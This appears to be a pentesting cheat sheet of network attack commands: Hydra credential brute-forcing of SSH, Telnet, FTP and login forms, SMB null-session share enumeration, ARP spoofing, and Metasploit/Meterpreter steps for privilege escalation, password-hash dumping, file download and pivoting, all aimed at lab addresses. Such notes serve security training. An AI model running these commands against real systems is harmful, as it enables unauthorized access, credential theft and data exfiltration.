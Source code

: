 ```yaml
---
description: 'SSH, Telnet, RDP, HTTP auth, Windows shares'
---
```


# Network Attacks

## Hydra

### SSH

```text
hydra -L users.txt -P pass.txt 10 10.10.10.10 ssh
```

### Telnet

```text
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### FTP

```text
hydra -L users.txt -P pass.txt ftp://10.10.10.10
```

### POST form login

```text
hydra 10.10.10.10 http-post-form "/login.php:user=^USER^&pass=^PASS^:statement for incorrect login" -L /usr/share/ncrack/minimal.usr -P /etc/john/rockyou.txt
```

Add`-f` to stop the brute-forcing after finding one valid cred.

* /etc/john/rockyou.txt for passwords.
* /usr/share/ncrack/minimal.usr for users.
* Sometimes you can just use the users list for the passwords too.

## Windows Shares using Null Sessions

### Shares Enumeration

```text
nmblookup -A 10.10.10.10
```

### List Shares

```text
smbclient -L //10.10.10.10 -N
```

### Mount Share

```text
smbclient //10.10.10.10/sharename -N
```

### enum4linux

```text
enum4linux -a 10.10.10.10
```

The above command does all the previous ones and gives you more data too except mounting the shares, which you have to implement using smbclient.

## ARP Poisoning

### arpspoof

&lt;interface&gt; == eth0/tap0

```text
arpspoof -i <interface> -t target -r host
```

## Metasploit

### Basic

```text
search <term>
use <term>
info
show options
set <option> x
exploit
```

### Meterpreter

**bind\_tcp**: runs a server process on the target machine that waits for connections from attacker machine.

**reverse\_tcp**: performs a TCP connection back to the attacker machine. Helps evade firewall rules.

```text
background #backgrounds the current session
sessions -l
sessions -i %n
sysinfo
ifconfig, route
getuid
getsystem #windows privesc
bypassuac #if windows privesc fails
hashdump
cat '/path/to/file.txt'
download '/path/to/fileontarget.txt' /root/mymachine/
```

### Routing in Metasploit

Background the meterpreter of the session where you found the other subnet accessible.

```text
use post/multi/manage/autoroute
route add <subnet> <session-id>
```

You have to input the session id of the meterpreter session.

Now the subnet is accessible in the whole of Metasploit-Framework.

